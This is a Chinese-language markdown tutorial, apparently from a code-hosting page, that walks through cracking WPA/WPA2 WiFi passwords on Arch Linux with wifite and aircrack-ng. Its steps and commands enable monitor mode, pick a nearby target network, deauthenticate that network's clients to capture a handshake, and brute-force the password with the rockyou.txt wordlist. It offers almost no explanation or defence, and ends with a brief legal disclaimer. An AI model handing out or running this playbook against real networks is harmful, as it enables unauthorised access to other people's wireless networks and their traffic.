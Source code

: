 # 🧨 使用 Wifite 从攻击到获取 WiFi 密码的完整流程（Arch Linux）

---

## 🧰 一、所需工具准备

确保系统中安装以下工具：

- `wifite`：自动化攻击脚本
- `aircrack-ng`：破解握手包
- `rockyou.txt`：常用密码字典

### ✅ 安装命令：

```bash
sudo pacman -S wifite aircrack-ng wordlists wireshark-cli reaver
zcat /usr/share/wordlists/rockyou.txt.gz > ~/rockyou.txt
```

---

## 📡 二、启用无线网卡监控模式

```bash
sudo airmon-ng start wlan0
```

> 注意替换 `wlan0` 为你实际的无线接口，如 `wlo1`，使用 `ip a` 查看接口名称。

---

## 🚀 三、启动 Wifite 进行攻击与握手捕获

使用以下命令启动 Wifite 并自动杀掉干扰进程：

```bash
sudo wifite --kill
```

### 🎯 操作步骤：

1. 程序开始扫描周围 WiFi 网络，等待几秒。
2. 使用方向键选择目标（建议信号 > 60 dBm）。
3. 按回车，Wifite 会：
   - 攻击客户端以促使握手发生
   - 捕获 WPA/WPA2 握手包
   - 存储握手包于 `~/hs/` 目录

---

## 🔓 四、使用 aircrack-ng 破解握手包密码

找到 `.cap` 文件：

```bash
ls ~/hs
```

执行破解命令：

```bash
aircrack-ng -w ~/rockyou.txt -b <BSSID> ~/hs/<handshake>.cap
```

> `<BSSID>` 可选，增加速度；可从 `wifite` 扫描界面中复制。

### 示例：

```bash
aircrack-ng -w ~/rockyou.txt ~/hs/handshake-wifi-123.cap
```

## 📁 五、文件位置说明

| 文件/目录           | 说明       |
| --------------- | -------- |
| `~/hs/*.cap`    | 抓取到的握手包  |
| `~/rockyou.txt` | 密码字典文件   |
| `wifite.log`    | 扫描日志（可选） |

---

## 🛑 六、关闭监控模式

```bash
sudo airmon-ng stop wlan0mon
```

---

## ⚠️ 法律免责声明

> 本教程仅供**网络安全测试和学习目的**，请仅在**你拥有或得到明确授权**的网络上执行。  
> 未经授权破解他人 WiFi 网络属于**违法行为**！

---

## 📚 附加资源

- [wifite2 GitHub](https://github.com/kimocoder/wifite2)
- [aircrack-ng 官网](https://www.aircrack-ng.org/)
- [rockyou.txt 字典介绍](https://github.com/danielmiessler/SecLists)

